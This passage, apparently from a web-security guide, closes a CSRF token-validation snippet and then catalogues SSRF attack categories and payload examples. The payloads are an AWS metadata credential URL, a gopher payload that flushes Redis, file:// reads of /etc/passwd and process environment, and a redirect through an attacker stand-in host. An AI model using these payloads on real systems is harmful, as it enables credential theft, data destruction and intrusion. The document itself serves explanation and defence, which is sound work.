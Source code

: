 ```python
    session['csrf_token'] = token
    return token

def validate_csrf_token(request_token):
    session_token = session.get('csrf_token')
    return session_token and request_token == session_token
```

### Server-Side Request Forgery (SSRF)

#### SSRF Attack Scenarios
```
SSRF Exploitation Categories:
├── Internal Network Scanning
│   ├── Port scanning via HTTP requests
│   ├── Service enumeration
│   ├── Banner grabbing
│   ├── Network topology discovery
│   └── Firewall bypass techniques
├── Cloud Metadata Exploitation
│   ├── AWS EC2 metadata service
│   ├── Azure Instance Metadata Service
│   ├── Google Cloud metadata server
│   ├── DigitalOcean metadata API
│   └── Kubernetes service account tokens
├── Protocol Smuggling
│   ├── Gopher protocol exploitation
│   ├── File protocol abuse
│   ├── FTP protocol smuggling
│   ├── LDAP protocol exploitation
│   └── Dict protocol abuse
└── Application-Specific Attacks
    ├── Database port exploitation
    ├── Redis command execution
    ├── Memcached manipulation
    ├── ElasticSearch queries
    └── MongoDB operations
```

**SSRF Payload Examples:**
```python
# AWS metadata extraction
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Internal service discovery
http://localhost:80/admin
http://127.0.0.1:22/
http://10.0.0.1:3306/

# Protocol smuggling
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aFLUSHALL%0d%0a

# File system access
file:///etc/passwd
file:///proc/self/environ
file:///var/log/apache2/access.log

# DNS-based SSRF
http://malicious.attacker.com/redirect?url=http://internal-service/
```
